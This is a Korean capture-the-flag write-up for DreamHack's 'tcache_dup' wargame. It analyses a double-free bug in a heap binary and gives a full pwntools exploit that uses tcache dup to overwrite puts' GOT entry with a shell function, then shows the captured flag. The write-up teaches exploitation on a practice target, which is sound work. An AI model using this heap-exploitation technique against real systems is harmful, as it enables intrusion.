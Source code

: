 # [DreamHack] tcache_dup

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 작동하고 있는 서비스(tcache_dup)의 바이너리와 소스코드가 주어집니다.
> Tcache dup 공격 기법을 이용한 익스플로잇을 작성하여 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [tcache_dup.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8549431/tcache_dup.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160313888-7619062d-4d12-4bf5-a939-1e74805aa1d6.png)

## Analysis

### create()

```c
    if(cnt > 10) {
        return -1; 
    }
```

`create()`에 인자로 전달되는 `cnt`는 `ptr`에 할당된 청크의 개수를 의미한다. `cnt`가 10보다 크면 함수를 종료한다. 청크를 해제해도 `cnt`가 줄어들지 않기 때문에, 최대 10번까지만 청크를 할당할 수 있다.

```c
    printf("Size: ");
    scanf("%d", &size);

    ptr[cnt] = malloc(size);

    if(!ptr[cnt]) {
        return -1;
    }
```

사이즈를 입력받고 그 크기만큼 `malloc()`으로 청크를 할당해서 `ptr[cnt]`에 저장한다. `malloc()`이 정상적으로 청크를 할당해주지 않으면 함수를 종료한다.

```c
    printf("Data: ");
    read(0, ptr[cnt], size);
```

할당한 청크에 데이터를 입력받는다.

### delete()

```c
    printf("idx: ");
    scanf("%d", &idx);

    if(idx > 10) {
        return -1; 
    }
```

해제할 청크의 index를 입력받는다. 10보다 큰 값을 입력하면 함수를 종료한다.

```c
    free(ptr[idx]);
```

`ptr[idx]`에 저장된 청크를 해제한다. `ptr[idx]`를 0으로 초기화하지 않아서 DFB가 발생할 수 있다.

## Exploit

Partial RELRO 환경이므로 GOT overwrite가 가능하다. DFB를 이용하여 GOT에 fake chunk를 할당받고 `get_shell()`의 주소로 덮으면, 그 함수가 호출될 때 셸을 획득할 수 있다.

```
$ nc host1.dreamhack.games 16030
1. Create
2. Delete
> 1
Size: 10
Data: asdf
1. Create
2. Delete
> 2
idx: 0
1. Create
2. Delete
> 2
idx: 0
1. Create
2. Delete
>
```

최신 glibc 2.27 버전에서는 tcahce에 double free 검사가 추가되어서 하나의 tcache 내에서 double free가 불가능한데, 서버 환경에서는 위와 같이 double free를 시켜도 오류가 발생하지 않는 것을 확인할 수 있다.

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/tcache_dup')
else:
    r = remote('host1.dreamhack.games', 16030)

sla = r.sendlineafter
sa = r.sendafter


def Create(size, data):
    sla('> ', '1')
    sla('Size: ', str(size))
    sa('Data: ', data)


def Delete(idx):
    sla('> ', '2')
    sla('idx: ', str(idx))


puts_got = 0x601020  # GOT of puts()
get_shell = 0x400ab0  # get_shell()


Create(0x18, 'a')  # idx: 0
Delete(0)
Delete(0)

Create(0x18, p64(puts_got))
Create(0x18, 'a')
Create(0x18, p64(get_shell))  # overwrite GOT of puts() with get_shell()


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 16030: Done
[*] Switching to interactive mode
$ cat flag
DH{11203ceeb905ad94be39c7a1e3b6a540}
```